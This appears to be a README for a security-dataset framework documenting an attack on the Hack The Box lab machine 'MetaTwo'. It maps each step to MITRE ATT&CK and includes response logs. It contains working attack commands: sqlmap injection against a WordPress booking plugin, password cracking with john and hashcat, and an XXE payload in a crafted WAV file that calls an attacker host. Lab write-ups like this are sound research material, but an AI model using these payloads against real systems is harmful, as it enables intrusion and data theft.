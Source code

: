 # Cyber4ML_Framework application in "MetaTwo" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.17|10.10.11.186|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [MetaTwo Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/MetaTwo/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) | CVE-2022-0739/CWE-89 |
| Execution | Command and Scripting Interpreter | Unix Shell | (1) | CVE-2022-0739/CWE-89 |
| Credential Access | Brute Force | Password Cracking | (2), (3) | - |
| Initial Access | Valid Accounts | Local Accounts | - | - |
| Reconnaissance | Active Scanning | Vulnerability Scanning | (4) | - |
| Initial Access | Exploit Public-Facing Application | - | (5) | CVE-2021-29447/CWE-611 |
| Execution | Exploitation for Client Execution | - | (5) | CVE-2021-29447/CWE-611 |
| Persistence | Valid Accounts | Local Accounts | (6) | - |
| Credential Access | Credentials from Password Stores | Password Managers | - | - |
| Privilege Escalation | Valid Accounts | Local Accounts | - | - |

#### Commands/Scripts
- (1)
```
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --data="action=bookingpress_front_get_category_services&_wpnonce=35b4fc273d&category_id=33&total_service=1" -p "total_service" --dbs
```
- (2)
```
john hashes --wordlist=rockyou.txt
``` 

- (3)
```
john -w=rockyou.txt gpg.john
```

- (4)
```
wpscan --url http://metapress.htb
```

- (5)
```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.16.17:4444/xxe_attack.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

- (6)
```
ssh jnelson@metapress.htb
```

#### Alternative Commands/Scripts
- (2)
```
hashcat -m 400 -a 0 hashes rockyou.txt
```


## Network Analysis

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/MetaTwo/attack_capture.pcapng)

## Log Analysis

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Tue, 21 Mar 2023 01:47:40 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```
```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Thu, 30 Mar 2023 01:25:57 GMT
Content-Type: text/plain; charset=UTF-8
Connection: close
X-Powered-By: PHP/8.0.24
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin
X-Content-Type-Options: nosniff
X-WP-Upload-Attachment-ID: 29
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Content-Length: 1066

{"success":true,"data":{"id":29,"title":"payload","filename":"payload-1.wav","url":"http:\/\/metapress.htb\/wp-content\/uploads\/2023\/03\/payload-1.wav","link":"http:\/\/metapress.htb\/payload-2\/","alt":"","author":"2","description":"\"payload\".","caption":"","name":"payload-2","status":"inherit","uploadedTo":0,"date":1680139557000,"modified":1680139557000,"menuOrder":0,"mime":"audio\/wav","type":"audio","subtype":"wav","icon":"http:\/\/metapress.htb\/wp-includes\/images\/media\/audio.png","dateFormatted":"March 30, 2023","nonces":{"update":false,"delete":false,"edit":false},"editLink":false,"meta":{"artist":false,"album":false,"bitrate":false,"bitrate_mode":"cbr"},"authorName":"manager","authorLink":"http:\/\/metapress.htb\/wp-admin\/profile.php","filesizeInBytes":145,"filesizeHumanReadable":"145 B","context":"","image":{"src":"http:\/\/metapress.htb\/wp-includes\/images\/media\/audio.png","width":48,"height":64},"thumb":{"src":"http:\/\/metapress.htb\/wp-includes\/images\/media\/audio.png","width":48,"height":64},"compat":{"item":"","meta":""}}}
```
